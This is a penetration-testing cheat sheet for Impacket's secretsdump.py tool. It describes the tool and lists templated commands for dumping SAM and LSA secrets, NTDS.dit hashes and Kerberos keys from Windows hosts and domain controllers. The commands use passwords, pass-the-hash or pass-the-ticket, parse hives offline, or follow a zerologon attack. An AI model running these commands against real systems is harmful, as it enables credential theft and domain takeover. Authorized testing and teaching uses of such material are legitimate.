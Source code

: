 # secretsdump.py (imp)

% impacket-secrets, windows, smb, 445

#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 

## desc
```
Performs various techniques to dump secrets from the remote machine without executing any agent there. 

For SAM and LSA Secrets (including cached creds) we try to read as much as we can from the registry and then we save the hives in the target system (%SYSTEMROOT%\Temp directory) and read the rest of the data from there. 

For DIT files, we dump NTLM hashes, Plaintext credentials (if available) and Kerberos keys using the DL_DRSGetNCChanges() method. It can also dump NTDS.dit via vssadmin executed with the smbexec/wmiexec approach. The script initiates the services required for its working if they are not available (e.g. Remote Registry, even if it is disabled). After the work is done, things are restored to the original state.
```


## auth (creds)
```bash
secretsdump.py -debug <domain_fqdn>/<user>:'<password>'@<target_fqdn>
```

## auth (pth)
```bash
secretsdump.py -debug -hashes :<nt_hash> <domain_fqdn>/<user>@<target_fqdn>
```

## auth (ptt)
```bash
KRB5CCNAME=<ccache> secretsdump.py -debug -k -no-pass -dc-ip <dc_fqdn> -no-pass -k <domain_fqdn>/<user>@<target_fqdn>
```

## SAM & LSA  (creds)
```bash
secretsdump.py -debug -exec-method smbexec -outputfile <target_fqdn> <domain_fqdn>/<user>:'<password>'@<target_fqdn>
```

## SAM & LSA  (pth)
```bash
secretsdump.py -debug -exec-method smbexec -outputfile <target_fqdn> -hashes :<nt_hash> <domain_fqdn>/<user>@<target_fqdn> 
```

## SAM & LSA  (ptt)
```bash
KRB5CCNAME=<ccache> secretsdump.py -debug -exec-method smbexec -outputfile <target_fqdn> -dc-ip <dc_fqdn> -no-pass -k <domain_fqdn>/<user>@<target_fqdn>
```

## SAM (offline)
```bash
secretsdump.py -debug -outputfile <target_fqdn> -system <SYSTEM_FILE|system.save> -sam <SAM_FILE|sam.save> LOCAL
```

## LSA (offline)
```bash
secretsdump.py -debug -outputfile <target_fqdn> -system <SYSTEM_FILE|system.save> -security <SECURITY_FILE|security.save>' LOCAL
```

## NTDS - all (creds)
```bash
secretsdump.py -debug -outputfile <dc_fqdn> -just-dc -user-status  <domain_fqdn>/<user>:'<password>'@<dc_fqdn>
```

## NTDS - all (pth)
```bash
secretsdump.py -debug -outputfile <dc_fqdn> -just-dc -user-status -hashes :<nt_hash> <domain_fqdn>/<user>@<dc_fqdn>
```

## NTDS - all (ptt)
```bash
KRB5CCNAME=<ccache> secretsdump.py -debug -outputfile <dc_fqdn> -just-dc -user-status -no-pass -k <domain_fqdn>/<user>@<dc_fqdn>
```


## NTDS - user (creds)
```bash
secretsdump.py -debug -outputfile <dc_fqdn> -just-dc -user-status -just-dc-user <domain_fqdn>/<name|krbtgt> <domain_fqdn>/<user>:'<password>'@<dc_fqdn>
```

## NTDS - user (pth)
```bash
secretsdump.py -debug -outputfile <dc_fqdn> -just-dc -user-status -just-dc-user <domain_fqdn>/<name|krbtgt> -hashes :<nt_hash> <domain_fqdn>/<user>@<dc_fqdn>
```

## NTDS - user (ptt)
```bash
KRB5CCNAME=<ccache> secretsdump.py -debug -outputfile <dc_fqdn> -just-dc -user-status -just-dc-user <domain_fqdn>/<name|krbtgt> -no-pass -k <domain_fqdn>/<user>@<dc_fqdn>
```

## NTDS - offline
```bash
secretsdump.py -debug -outputfile <dc_fqdn> -ntds <NTDS_FILE|ntds_file.dit> -system <SYSTEM_FILE|system.save> LOCAL 
```


## NTDS - zerologon 
zerologon
```bash
secretsdump.py -debug -outputfile <dc_fqdn> -just-dc -user-status -no-pass <dc_name>\$@<dc_fqdn>
```